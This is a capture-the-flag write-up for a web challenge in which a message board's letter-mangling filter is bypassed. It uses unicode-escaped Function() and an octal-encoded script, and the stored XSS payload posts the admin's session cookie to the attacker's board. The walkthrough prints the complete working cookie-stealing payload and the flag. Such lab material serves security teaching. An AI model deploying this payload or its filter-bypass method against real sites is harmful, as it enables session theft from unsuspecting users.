

#  Robberts secure messaging service
**Challenge author:** Jimmie Rudvall   
**Category:** Web


## Challenge Description
After years of operating in the shadows, the infamous Robbert — master thief and tech-savvy bandit — has decided to trade in his lockpicks for a keyboard. Inspired by his misadventures and the constant need for secrecy in his line of work, Robbert has launched Robber's Messageboard, a secure communication platform designed to allow robbers to publicly communicate in a secure way.

Robbert has decided to launch a beta version of his message board to be prove to himself that his service is just as well architectured and built as he intend it to be. He's hoping that responsible hackers can leave a message in the unlikely case of a vulnerability being found.

Driven by a combination of excitment and paranoia, Robbert will log in every fifth minute to watch his beautiful creation in action and once every hour to remove all spammy messages, ensuring a good experience for all you enthusiatic robbers!


Author: Jimmie Rudvall

https://rorovovarorsospoprorakokeror.appsec.nu/ 

## Solution
When visiting the website, it prompts the user to either login or to create an account. Once an account has been created, messages can be written and placed onto a message board. 


If I write a message onto the board, we see that for many characters, some extra characters are appended.  For example, each instance of the character r will be modified and become ror and each f will become fof, and so on. By testing different inputs, I determined that all letters, big or small, will be modified, except for the letters e,i,y,a,o,u which are not modified. Numbers and special characters are also unchanged.

Checking the source code of the website, we see that there is a script tag with some debug code. In this debug code, our inputted message is placed, which can possibly be used to execute JS code. 



Let's see if we can exploit this. To stop the string, we'll begin with a `"` after which we will end the `console.log` function by adding `);`. Once the function is ended, some JS payload can be placed, which will be exeuted by the browser. To make the JS valid, we'll add `//` to the end, to make the junk code into a comment. Combining all, we get a possible exploit that looks like this:
`"); PAYLOAD //`.

Let's try it out with a simple string as the payload. The inputed message will be `"); 123abc //`. We see that the string `123abc` is outside the `console.log` function, and that the browser tried to execture the code, but failed since it is not valid JS code. 


We now know that we can craft a message which will make a readers browser execute arbritrary JS code. However, we still have two problems. The first problem being that we cannot put normal JS code as the payload, since most letters will be modified, changing it to invalid JS code. The other problem is that we still need to identify a way we can use the stored XSS vulnerability.


When XSS vulnerability are identified, the first thing I check is whether cookies used by the website can be accessed by JS code. 

We see that the `HttpOnly` attribute is set to False. This allows client-side code, such as JS, to access the cookie. Therefore, the goal of our payload will be to read and transfer the cookie of Robbert.

We now need to solve the other problem, finding a way to send a payload which is not modified by the application. To do this, we need to in some way not use most letters. After doing some research, i found that JS code can be executed using [unicode escape sequences](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Regular_expressions/Character_escape). The problem with using unicode escape sequences is that it may still contain some characters which are modified by the web app, since it uses hexadecimal. To limit the usage of unicode, we will choese a function which can execute JS by passing it a string containing JS code. The reason for this is that strings can be encoded using octal encoding, which will only contain the character `\` and numbers.

The JS function I chose is named `Function()`. This function will take a string as input and will execute it once it is called. The reason for choosing this function is that when encoding it into unicode, we get:
`\u0046\u0075\u006E\u0063\u0074\u0069\u006F\u006E`.
This unicode string mostly satisfies the allowed charset which is not changed by the web app. The only problem is the `\u006F` which conatins the letter F. However, the unicode `\u006F` represents the letter `o`, which is unmodified by the web app. This allows us to change the unicode `\u006F` with `o`, giving us the string:
`\u0046\u0075\u006E\u0063\u0074\u0069o\u006E`.

We can now add this to our message:

`"); a=\u0046\u0075\u006E\u0063\u0074\u0069o\u006E; a("PAYLOAD")() //`

This message will allows us to execute any JS code in a readers browser by putting octal encoded JS code in the `PAYLOAD` field.

The payload I used will post a message of the readers (Robberts) cookie to my user message board. 
```
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://rorovovarorsospoprorakokeror.appsec.nu/messageboard.php', true);
let formData = new FormData();
formData.append("message", document.cookie);
document.cookie = "PHPSESSID=v9j7uk97u29vpunef5cs5i8f9v";
xhr.send(formData);
```
> Note: The document.cookie assignment need to be changed to your cookie to post the message to your board.

Encoding this to octal and putting it as the payload, gives the final message of:

```
"); a=\u0046\u0075\u006e\u0063\u0074\u0069o\u006e; a("\166\141\162\40\170\150\162\40\75\40\156\145\167\40\130\115\114\110\164\164\160\122\145\161\165\145\163\164\50\51\73\40\170\150\162\56\157\160\145\156\50\47\120\117\123\124\47\54\40\47\150\164\164\160\163\72\57\57\162\157\162\157\166\157\166\141\162\157\162\163\157\163\160\157\160\162\157\162\141\153\157\153\145\162\157\162\56\141\160\160\163\145\143\56\156\165\57\155\145\163\163\141\147\145\142\157\141\162\144\56\160\150\160\47\54\40\164\162\165\145\51\73\40\154\145\164\40\146\157\162\155\104\141\164\141\40\75\40\156\145\167\40\106\157\162\155\104\141\164\141\50\51\73\40\146\157\162\155\104\141\164\141\56\141\160\160\145\156\144\50\42\155\145\163\163\141\147\145\42\54\40\144\157\143\165\155\145\156\164\56\143\157\157\153\151\145\51\73\40\144\157\143\165\155\145\156\164\56\143\157\157\153\151\145\40\75\40\42\120\110\120\123\105\123\123\111\104\75\166\71\152\67\165\153\71\67\165\62\71\166\160\165\156\145\146\65\143\163\65\151\70\146\71\166\42\73\40\170\150\162\56\163\145\156\144\50\146\157\162\155\104\141\164\141\51\73")()//
```

After posting this message and waiting five minues, Robberts flag was posted on my message board. 

```
foflolagog=O24%7BobRoroRor34lololol_RoroRorObobobob8o83rororor505_7074kokokoke_cocococ0oKokoKok%21E505_wowowowi707HohoHoh_momomom1LoloLolKokoKok%7Dod;
```
Removing the of, ol, og, etc, we get the flag: **`O24{RoR34lol_RoRObob8o83ror505_7074koke_coc0oKoK!E505_wowi707HoH_mom1LoLKoK}`**

> Note: There is possibly another way to create a message that can be used to execute JS code. There is a languange, which is a subset of JS, called [JSFuck](https://en.wikipedia.org/wiki/JSFuck). This allows any JS code to be executed only using the characters `[]()!+`. This contains no letters, which could solve the challenge. 